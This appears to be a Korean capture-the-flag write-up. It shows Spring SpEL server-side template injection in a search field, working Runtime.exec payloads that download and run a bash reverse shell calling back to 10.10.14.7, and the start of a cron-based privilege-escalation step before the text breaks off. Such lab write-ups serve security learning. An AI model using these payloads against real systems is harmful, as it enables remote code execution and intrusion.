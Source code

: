 ![image](https://user-images.githubusercontent.com/33647663/219957033-635c26e3-4b39-404c-acc0-ee9b4735ad26.png)

검색 기능을 이용해 보면 사용자의 입력값이 그대로 화면에 다시 나옵니다. 이러한 기능의 경우 ```XSS```, ```SSTI``` 취약점을 확인해 봅니다.

```
*{3*3} 
```
을 입력하면 다음과 같이 실행된 결과가 나옵니다. 

![image](https://user-images.githubusercontent.com/33647663/219957117-3728d372-ddb8-49dd-b251-97cd03d3b9da.png)

```bash
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
```

![image](https://user-images.githubusercontent.com/33647663/219957181-de956336-68f3-4a1e-8db6-38c21d311ba9.png)

이제 SSTI 취약점을 이용하여 쉘을 획득합니다.

칼리 리눅스에서 먼저 다음과 같이 준비를 해둡니다.

```bash
echo "bash -i >& /dev/tcp/10.10.14.7/1234 0>&1" > revshell.sh
python -m http.server 80
nc -nlvp 1234
```

![image](https://user-images.githubusercontent.com/33647663/219957738-e225242f-0ece-4c20-a44f-3d9e14a774a1.png)


페이로드를 전송합니다.

```bash
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('curl http://10.10.14.7/revshell.sh -o /tmp/revshell.sh').getInputStream())}
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('chmod 777 /tmp/revshell.sh').getInputStream())}
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('bash /tmp/revshell.sh').getInputStream())}
```

![image](https://user-images.githubusercontent.com/33647663/219957809-f5148911-6283-45a1-8a47-de27e7cefa49.png)


# Privilege Escalation

## pspy64 & cron
pspy64를 실행해서 cron이 동작하는지 확인합니다.

![image](https://user-images.githubusercontent.com/33647663/219958054-fc82e263-bfbb-43f6-b1e2-4b5eb5d92e6f.png)

root 권한으로 실행되는 cron 작업이 존재합니다.

해당 자바 프로그램의 구성은 다음과 같습니다. 소스코드 파일인 App.java 파일을 분석합니다.
